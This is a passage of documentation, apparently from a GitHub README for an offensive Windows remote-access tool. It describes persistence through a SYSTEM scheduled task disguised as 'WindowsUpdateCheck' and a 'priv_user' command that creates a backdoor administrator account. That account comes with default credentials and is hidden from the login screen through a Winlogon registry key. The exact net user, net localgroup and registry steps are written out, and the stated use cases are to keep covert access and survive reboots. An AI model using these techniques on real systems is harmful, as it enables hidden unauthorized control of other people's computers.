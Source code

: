 4. **Scheduled Task (Admin only)**
   - Runs as SYSTEM on logon
   - Requires administrator privileges
   - Task name: "WindowsUpdateCheck"
   - Highest privileges

**Use case:**

- Maintain access after reboot
- Create backdoor auto-start
- Survive system restarts
- Multiple fallback methods

---

#### Create Backdoor User

```bash
priv_user
```

Creates user with default credentials (username: support, password: P@ssw0rd123).

```bash
priv_user admin MySecretPass123
```

Creates custom user with specified credentials.

**What happens:**

- Creates new Windows user account (requires administrator)
- Adds user to Administrators group
- Hides user from login screen via registry

**Response:**

```
Backdoor user 'admin' created and hidden from login screen
```

**How it works:**

1. Executes: `net user <username> <password> /add`
2. Executes: `net localgroup administrators <username> /add`
3. Sets registry key: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList
4. Sets value: <username> = 0 (hides from login screen)

**Warning:**

- Requires administrator privileges!
- User will not appear on Windows login screen
- User can still be seen in Computer Management
- Can be detected by security tools

**Use case:**

- Persistent administrative access
- Hidden backup admin account
- Alternative access method

---